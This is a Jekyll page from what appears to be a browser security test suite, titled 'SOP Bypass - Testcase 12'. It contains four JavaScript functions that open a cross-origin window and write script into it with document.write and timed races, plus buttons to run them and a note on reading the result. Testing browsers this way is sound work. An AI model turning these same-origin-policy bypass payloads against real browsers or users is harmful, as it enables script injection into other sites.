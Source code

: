 ```yaml
---
layout: default
title: SOP Bypass - Testcase 12
permalink: /sop/new/12
---
```


# SOP Bypass - Testcase 12

Testing for SOP bypass using window.open function and race condition

<script>
function sop1() {
    w = window.open('https://web.archive.org/web/20180831120305/http://www.bing.com', '_blank');
    w.document.write("<body><script>document.body.innerHTML=location.href;<\/script>");
}
function sop2() {
    w = window.open('https://web.archive.org/web/20180831120305/http://www.bing.com', '_blank');
    setTimeout(function() { w.document.write("<body><script>document.body.innerHTML=location.href;<\/script>"); }, 5000);
}
function sop3() {
    w = window.open('about:blank', '_blank');
    setTimeout(function() { w.document.write("<body><script>document.body.innerHTML=location.href;<\/script>"); }, 5000);
}
function sop4() {
    w = window.open('location.href', '_blank');
    w.document.write("<body><script>location.href = 'https://web.archive.org/web/20180831120305/http://www.bing.com';<\/script>");
    setTimeout(function() { w.document.write("<body><script>document.body.innerHTML=location.href;<\/script>"); }, 9000);
}
</script>

<input type="button" id="btn_test" class="test" value="Run Test Case 1" onclick="sop1()">
<input type="button" id="btn_test" class="test" value="Run Test Case 2" onclick="sop2()">
<input type="button" id="btn_test" class="test" value="Run Test Case 3" onclick="sop3()">
<input type="button" id="btn_test" class="test" value="Run Test Case 4" onclick="sop4()">

**Note:**
If page loads popup and displays bing.com in browser tab, your browser is vulnerable to SOP bypass. Please note that if the address bar is about:blank, the browser is safe.
